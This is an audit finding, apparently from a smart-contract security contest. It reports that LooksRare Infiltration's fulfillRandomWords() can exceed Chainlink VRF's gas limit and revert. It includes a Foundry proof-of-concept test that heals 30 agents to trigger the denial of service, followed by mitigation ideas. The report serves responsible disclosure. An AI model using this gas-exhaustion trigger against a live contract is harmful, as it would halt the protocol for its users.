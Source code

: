 Able Seafoam Mongoose

high

# fulfillRandomWords() could revert under certain circumstances
## Summary

According the documentation of Chainlink VRF the max gas limit for the VRF coordinator is 2 500 000. This means that the max gas that fulfillRandomWords() can use is 2 500 000 and if it is exceeded the function would revert. I have constructed a proof of concept that demonstrates it is possible to have a scenario in which fulfillRandomWords reverts and thereby disrupts the protocol's work.

## Vulnerability Detail

Crucial part of my POC is the variable AGENTS_TO_WOUND_PER_ROUND_IN_BASIS_POINTS. I communicated with the protocol's team that they plan to set it to 20 initially but it is possible to have a different value for it in future. For the POC i used 30.

```solidity
function test_fulfillRandomWords_revert() public {
        _startGameAndDrawOneRound();

        _drawXRounds(48);
        
        uint256 counter = 0;
        uint256[] memory wa = new uint256[](30);
        uint256 totalCost = 0;

        for (uint256 j=2; j <= 6; j++) 
        {
            (uint256[] memory woundedAgentIds, ) = infiltration.getRoundInfo({roundId: j});

            uint256[] memory costs = new uint256[](woundedAgentIds.length);
            for (uint256 i; i < woundedAgentIds.length; i++) {
                costs[i] = HEAL_BASE_COST;
                wa[counter] = woundedAgentIds[i];
                counter++;
                if(counter > 29) break;
            }

            if(counter > 29) break;
        }
        
        
        totalCost = HEAL_BASE_COST * wa.length;
        looks.mint(user1, totalCost);

        vm.startPrank(user1);
        _grantLooksApprovals();
        looks.approve(TRANSFER_MANAGER, totalCost);


        infiltration.heal(wa);
        vm.stopPrank();

        _drawXRounds(1);
    }
```

I put this test into Infiltration.startNewRound.t.sol and used --gas-report to see that the gas used for fulfillRandomWords exceeds 2 500 000.

## Impact

DOS of the protocol and inability to continue the game.

## Code Snippet

https://github.com/sherlock-audit/2023-10-looksrare/blob/main/contracts-infiltration/contracts/Infiltration.sol#L1096-L1249
https://docs.chain.link/vrf/v2/subscription/supported-networks/#ethereum-mainnet
https://docs.chain.link/vrf/v2/security#fulfillrandomwords-must-not-revert

## Tool used

Manual Review

## Recommendation

A couple of ideas : 

1) You can limit the value of AGENTS_TO_WOUND_PER_ROUND_IN_BASIS_POINTS to a small enough number so that it is 100% sure it will not reach the gas limit.

2) Consider simply storing the randomness and taking more complex follow-on actions in separate contract calls as stated in the "Security Considerations" section of the VRF's docs. 
